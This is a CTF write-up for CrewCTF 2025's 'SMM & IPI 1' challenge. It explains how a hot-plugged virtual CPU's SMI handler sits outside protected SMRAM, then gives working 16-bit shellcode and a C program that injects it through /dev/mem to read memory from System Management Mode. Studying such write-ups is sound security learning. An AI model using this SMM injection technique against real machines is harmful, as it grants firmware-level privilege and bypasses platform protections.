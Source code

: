 +++
author = "vmpr0be"
title = "CrewCTF 2025 - SMM & IPI 1"
date = "2025-09-21"
categories = ["ctf"]
+++

# CrewCTF 2025 - SMM & IPI 1

### Vocabulary

- SMM: System Management Mode, a highly privileged CPU mode.
- SMRAM: A special region of memory that is only accessible from SMM.
- SMI: An interrupt that halts current execution and switches the CPU to SMM.
- SMBASE: The base of the memory region used for SMM components (e.g., the SMI handler and saved execution state). The default SMBASE is 0x30000.

### Overview

"You know what else OVMF does with SMM? CPU hotplugging. So I took a look.
**Flag is at physical memory 0x44440000 when read from SMM**."

This means we need to read the flag while the CPU is in SMM.

##### Hint

"I disabled something I should not have disabled. This link might help you understand what is going on: https://lore.kernel.org/all/8091f6e8-b1ec-f017-1430-00b0255729f4@redhat.com/T/"

The author also stated that interrupt logs can be extracted with a special flag:
``
-D interrupts.log -d int
``.
After hot-plugging the CPU with `./addcpu.sh`, we can see three SMIs triggered, meaning the newly plugged CPU is actually executing.

### Vulnerability

To summarize, the bug lies in the fact that when the CPU is hot-plugged, the SMBASE isn’t in SMRAM, which means the SMI handler isn’t protected.

By contrast, on a non-hot-plugged CPU, SMBASE is usually relocated into SMRAM.

### Exploitation

Since the SMI handler isn’t protected, when the hot-plugged CPU is added it will start its execution at the unprotected SMI handler at `SMBASE + 0x8000` (in this case: `0x38000`). We can patch that handler with our own code to read the flag from `0x44440000`.

When the interrupted CPU core switches to SMM, it expects the SMI handler to contain 16-bit instructions, so our injected shellcode must be 16-bit.

We need a physical region accessible outside SMM where we can store the flag read by our shellcode.

```bash
crewctf-2025:/root# cat /proc/iomem
...
00001000-0009ffff : System RAM
...
```

We’ll use `0x00001000` as storage.

#### Shellcode

The shellcode basically does the following:

- Read the flag from 0x44440000.
- Write the flag to our storage 0x1000.

```C
mov esi, 0x44440000   ; the flag address
mov edi, 0x1000       ; memory accessible by us
mov ecx, 64           ; bytes to be copied

copy_loop:
mov al, [esi]         ; read byte of the flag
mov [edi], al         ; store it in our storage
inc esi               ; next flag byte
inc edi               ; next storage byte
dec ecx               ; decrease counter
jnz copy_loop         ; loop again
```

#### Injection

**reveal.c:**
```C
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <unistd.h>
#include <string.h>

int main() {
    int fd;
    void *map;
    
    fd = open("/dev/mem", O_RDWR);
    if (fd < 0) {
        perror("open /dev/mem");
        return 1;
    }

    map = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, fd, 0x38000);
    if (map == MAP_FAILED) {
        perror("mmap");
        close(fd);
        return 1;
    }

    unsigned char shellcode[] = {
        0x66, 0xBE, 0x00, 0x00, 0x44, 0x44,
        0x66, 0xBF, 0x00, 0x10, 0x00, 0x00,
        0x66, 0xB9, 0x40, 0x00, 0x00, 0x00,
        0x67, 0x8A, 0x06,
        0x67, 0x88, 0x07,
        0x66, 0x46,
        0x66, 0x47,
        0x66, 0x49,
        0x75, 0xF2
    };

    memcpy(map, shellcode, sizeof(shellcode));
    printf("Shellcode written to 0x38000\n");

    munmap(map, 0x1000);

    system("./addcpu.sh");

    map = mmap(NULL, 64, PROT_READ, MAP_SHARED, fd, 0x1000);
    if (map == MAP_FAILED) {
        perror("mmap");
        close(fd);
        return 1;
    }

    printf("Flag: %s\n", (char*)map);

    munmap(map, 64);
    close(fd);

    return 0;
}
```

Similarly, we compile and run this program, which will:
- Inject shellcode at 0x38000.
- Run the ./addcpu.sh script.
- Read the flag from 0x1000.

```bash
gcc reveal.c -o reveal
./reveal
```

```bash
Shellcode written to 0x38000
...
Flag: crew{but_why_isnt_addcpu_working_*REMOVED*}
```
